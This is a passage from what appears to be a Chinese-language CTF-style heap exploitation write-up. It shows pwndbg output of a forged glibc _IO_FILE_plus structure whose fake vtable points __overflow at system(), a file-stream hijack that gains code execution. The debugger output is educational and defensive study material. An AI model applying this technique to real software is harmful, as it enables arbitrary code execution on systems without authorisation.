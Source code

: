 效果如下

```
pwndbg&gt; bins
fastbins
0x20: 0x555555757070 —▸ 0x555555757090 ◂— 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
unsortedbin
all: 0x5555557570e0 ◂— 0x0
smallbins
empty
largebins
empty
pwndbg&gt; print (*(struct _IO_FILE_plus *)0x5555557570e0)  -----伪造的fake_file
$1 = `{`
  file = `{`
    _flags = 1852400175, 
    _IO_read_ptr = 0x61 &lt;error: Cannot access memory at address 0x61&gt;, 
    _IO_read_end = 0x0, 
    _IO_read_base = 0x7ffff7dd2510 "", 
    _IO_write_base = 0x0, 
    _IO_write_ptr = 0x1 &lt;error: Cannot access memory at address 0x1&gt;, 
    _IO_write_end = 0x0, 
    _IO_buf_base = 0x0, 
    _IO_buf_end = 0x0, 
    _IO_save_base = 0x0, 
    _IO_backup_base = 0x0, 
    _IO_save_end = 0x1 &lt;error: Cannot access memory at address 0x1&gt;, 
    _markers = 0x110, 
    _chain = 0x40, 
    _fileno = 0, 
    _flags2 = 0, 
    _old_offset = 0, 
    _cur_column = 0, 
    _vtable_offset = 0 '00', 
    _shortbuf = "", 
    _lock = 0x0, 
    _offset = 0, 
    _codecvt = 0x0, 
    _wide_data = 0xa0, 
    _freeres_list = 0x40, 
    _freeres_buf = 0x0, 
    __pad5 = 0, 
    _mode = 0, 
    _unused2 = '00' &lt;repeats 19 times&gt;
  `}`, 
  vtable = 0x5555557571d0
`}`
pwndbg&gt; x/4xg 0x5555557571d0
0x5555557571d0:    0x0000000000000000    0x0000000000000000
0x5555557571e0:    0x0000000000000000    0x00007ffff7a52390 -----伪造的__overflow()函数，指向system()
pwndbg&gt; x/2xg 0x00007ffff7a52390
0x7ffff7a52390 &lt;__libc_system&gt;:    0xfa86e90b74ff8548    0x0000441f0f66ffff
pwndbg&gt;
```
